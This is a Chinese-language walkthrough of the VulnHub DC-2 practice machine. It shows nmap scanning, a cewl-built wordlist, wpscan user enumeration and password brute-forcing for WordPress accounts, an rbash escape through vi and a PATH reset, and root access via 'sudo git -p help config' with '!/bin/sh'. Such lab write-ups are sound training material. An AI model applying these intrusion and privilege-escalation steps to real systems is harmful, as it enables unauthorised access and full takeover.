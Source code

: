 ## DC-2

**Author:xingg051**

靶机下载:[vulnhub-DC2](https://www.vulnhub.com/entry/dc-2,311/)

nmap扫描  
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101213638648.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NjEyODYxNA==,size_16,color_FFFFFF,t_70)

直接进入80端口 作者给出的提示 让我们使用cewl  

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101212927985.png)

然后网站上有很多乱码的字母 应该是密码了  
cewl是一个密码攻击工具，能够爬取网页上的所有单词生成一个列表  

```bash
cewl http://dc-2 -w dc2.txt
```

网站是WordPress搭建的  
wpscan扫描第一波没有可以用漏洞 那就枚举用户  

```bash
wpscan --url http://dc-2 --enumerate u
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101213208553.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NjEyODYxNA==,size_16,color_FFFFFF,t_70)

发现了三个用户 admin  jerry  tom 
然后用刚才cewl生成的字典爆破用户 得到了jerry和tom的密码  

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101213240355.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101213255692.png)

  
|Username|Password  |
|--|--|
| tom | parturient |
|jerry|adipiscing|  

用jerry的账号进了wordpress后台 发现了作者给的提示  

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101213717951.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NjEyODYxNA==,size_16,color_FFFFFF,t_70)

another way想到刚才nmap还跑出来一个ssh端口 尝试连接 用tom的账号进了  

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101213854782.png)

但是却被限制使用cat命令  

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101214000603.png)

尝试vi提权  

```bash
vi 
:set shell=/bin/sh
:shel
```

但是发现还是不能使用cat命令
我们再设置PATH变量  

```bash
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

然后就能使用cat命令了  

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101214244547.png)


提示说su for jerry
那就执行命令

```bash
su jerry
adipiscing
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101214346894.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NjEyODYxNA==,size_16,color_FFFFFF,t_70)

作者提示我们git  
果然查看sudo -l 可以执行git

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101214510897.png)  

```bash
sudo git -p help config 
!/bin/sh
```

此处用到的是less more的shell提权

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101214612543.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NjEyODYxNA==,size_16,color_FFFFFF,t_70) 

欢迎师傅们指点

邮箱：xingg051@163.com
